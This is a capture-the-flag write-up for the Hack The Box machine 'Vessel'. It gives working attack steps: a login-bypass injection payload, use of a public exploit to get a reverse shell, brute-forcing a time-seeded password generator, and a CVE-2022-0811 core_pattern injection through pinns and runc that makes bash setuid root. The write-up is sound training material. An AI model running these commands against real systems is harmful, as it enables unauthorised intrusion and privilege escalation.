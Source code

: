 ```yaml
---
title: "Hack The Box - Vessel [Hard]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


# Overview

Since it becomes very time consuming doing this in a video this write-up is going to be in a text.

The machine is labeled hard with a good reason, most of the tasks are time consuming but there are some interesting vulnerabilities like [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) and [CVE-2022-24637](https://www.exploit-db.com/exploits/51026).

On top of these we have [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and some PE reverse engineering.

# Write-up

### Flag 1

First I began enumerating the whole website with `ffuf`.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u "http://vessel.htb/FUZZ" -fs 26
```

With that I discovered a folder called `dev` which then led me to dumping the git repository of the website:

```
$ git-dumper http://vessel.htb/dev/.git ./website_dump
```

With the website avaliable, I can check the actual source code for vulnerabilities, immediately after opening the `routes/index.js` I have noticed that this code might be vulnerable to NoSQL Injection.

```javascript
...
let username = req.body.username;
let password = req.body.password;
if (username && password) {
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) { ...
```

The code doesn't check if the passed values if they are objects, I can use a crafted NoSQL payload to successfully login 
with the admin user using this payload while doing the POST request:

```
username=admin&password[password]=1
```

Upon another discovery in the admin panel, I found that there is another domain on the host called `openwebanalytics`. From further investigation over what can be exploted there I have landed on [CVE-2022-24637](https://www.exploit-db.com/exploits/51026). With that exploit I could run a successful reverse shell on the machine. 

Using [linpeas](https://github.com/carlospolop/PEASS-ng) I found some useful information over the user `steven`

```
/home/steven/passwordGenerator # Windows PE Exectuable
/home/steven/.notes/screenshot.png # Screenshot of some program
/home/steven/.notes/notes.pdf # Password protected PDF
```

I suspected that the `screenshot.png` is am image of the `passwordGenerator`.On the other hand the `passwordGenerator` was unusually big and the whole use of that binary is to create 'secure' passwords. I noticed the python icon on the binary and I suspected that this could be a packed python project with `PyInstaller`. I confirmed that when I loaded the whole thing in Ghidra/IDA.

I have used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the `*.pyc` files, and then the [uncomplyle6](https://pypi.org/project/uncompyle6/) to decompile the `*.pyc` files. Which has led me to the actual source code of the binary:

This is the function that generates the password:

```python
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
        else:
            if char == 1:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
            else:
                if char == 2:
                    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
                else:
                    try:
                        qsrand(QTime.currentTime().msec())
                        password = ''
                        for i in range(length):
                            idx = qrand() % len(charset)
                            nchar = charset[idx]
                            password += str(nchar)

                    except:
                        msg = QMessageBox()
                        msg.setWindowTitle('Error')
                        msg.setText('Error while generating password!, Send a message to the Author!')
                        x = msg.exec_()

                return password
```

I edited the `length` to 32 (as I have it on the screenshot) and edited the script a bit more to create a list out of possible passwords. I can do that because the `QTime.currentTime().msec()` function returns the numbers from 1-1000 with that range I have a big chance of guessing the generated password.

> **Note**: This process can be a bit frustrating since it takes time to generate the passwords. I personally spent little over an hour.

Then I used `pdfcrack` to crack the password of the PDF, there I found the password for the user `ethan` and I successfully logged in with it and I found the first flag.

### Flag 2

I ran `linpeas.sh` again, and I found the following `SUID` binary:

```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root ethan 814936 Mar 15  2022 /usr/bin/pinns    
...
```

I searched around a bit what is this, and I landed on the [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) which exploited this binary. While doing this, I noticed that I also have the `runc`. 

```                                                                                               
╔══════════╣ Container related tools present
/usr/sbin/runc       
```

This was a very tricky one, and it needs some understanding of what's going on to successfully execute the attack. You can check out the link I've provided for [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) to understand more about it. On the actual POC they have used Kubernetes, on our end I had to use  `runc`.

The parameters that are being passed to `pinns` are not being sanitized and validated, so I can use that to execute code with root access.

I needed to create a container using the `runc` without using `root` so I've used the `--rootless` arg.

Reference: https://github.com/opencontainers/runc/#rootless-containers

```
$ mkdir /tmp/syl
$ cd /tmp/syl/
$ runc spec --rootless
$ mkdir rootfs
$ echo "chmod +s /usr/bin/bash" > syl.sh
```

Then I should mount the root to the root of the container:

Reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation

```
$ runc --root /tmp/syl/ run alpine
# cat /etc/machine-id
c4ca4238a0b923820dcc509a6f75849b
```

This will run the container and spawn a shell. Next I would ssh into the machine from another session to execute the `pinns` binary to our container. 

```
$ /usr/bin/pinns -d /var/run -f c4ca4238a0b923820dcc509a6f75849b -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/syl/syl.sh #' --ipc --net --uts --cgroup
```

Then I need to trigger a core dump so that the `pinns` would execute the script in a case of a core dump. Following the PoC in crowdstrike:

```
# ulimit -c unlimited
# ulimit -c
unlimited
# tail -f /dev/null &
# ps
.. Find the `tail -f /dev/null` PID
# kill -SIGSEGV {thePID}
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

Back to the other session

```
$ bash -p
$ cat /root/root.txt
{HASH}
```
